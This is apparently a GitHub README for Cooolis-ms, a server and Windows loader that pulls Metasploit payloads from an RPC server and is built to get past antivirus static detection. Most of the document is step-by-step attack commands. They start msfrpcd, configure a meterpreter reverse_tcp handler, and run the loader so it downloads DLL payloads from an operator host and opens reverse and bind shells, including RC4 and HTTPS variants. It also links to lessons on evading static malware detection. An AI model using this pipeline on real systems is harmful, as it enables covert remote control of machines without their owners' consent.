


# Cooolis-ms

[中文说明](./README-zh.md)

--------


Cooolis-ms is a server that supports Metasploit Framework RPC. It is used to work for Shellcode and PE loader, bypassing the static detection of anti-virus software to a certain extent, and allows the Cooolis-ms server to perform with the Metasploit server separate.

Loader execution process: 

1. connect to Cooolis-Server
2. Cooolis-Server connects to Metasploit RPC server
3. retrieve the payload and send it back to the loader


Core technologies:

- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)


## Advantages of the project

- small volume (<600KB)
- Support all Metasploit Payload
- Simple parameters
- Single file
- Support separation

## You can refer to here and write your own good projects

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)

## How to install


### Choice 1 > Docker deployment (recommend)


Youtube:

[](https://youtu.be/StTqXEQ2l-Y?t=35s "YouTube")


```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms/Docker
$ docker-compose up -d
```

Default listening port:8899

### Choice 2 > Source code deployment

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use

**If you are deploying with Docker, please start directly from the third step.**

Assuming this is my VPS: 10.20.56.41

### First step, start Metasploit RPC server

**Start Metasploit RPC server:**

```
$ msfrpcd -U msf -P msf -u /api/1.0/ -a 127.0.0.1
```


### Second step, start the Cooolis-ms server

Make it connect to RPC and listen to a port for sending payload:

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 10.20.56.41
```


### Third step, configure Metasploit listener


```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST  10.20.56.41
msf5 > set LPORT 8876
msf5 > exploit -j
```


### Fourth step, start the Cooolis-ms client


```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -o LHOST=10.20.56.41,LPORT=8876,Format=dll -H 10.20.56.41 -P 8899
```



Q&A : [Does it support RC4 encrypted Payload?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -o LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter_reverse_https

```
Cooolis-ms.exe -p windows/meterpreter_reverse_https -o LHOST=10.20.56.41,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/bind_tcp_rc4

```
Cooolis-ms.exe -p windows/meterpreter/bind_tcp_rc4 -o RHOST=10.20.56.11,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* Other...  self-play


**Notice：**

1. The `-o` parameter of Cooolis-ms.exe should correspond to the msf configuration.
2. Since this project relies on the open source project [MemoryModule](https://github.com/fancycode/MemoryModule), it can only support PAYLOAD in DLL format. Need to add `Format=dll` after the -o parameter.

## 关于其他

If you think this project is good, please give me a Star.


## issue

[I want to submit a suggestion or question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
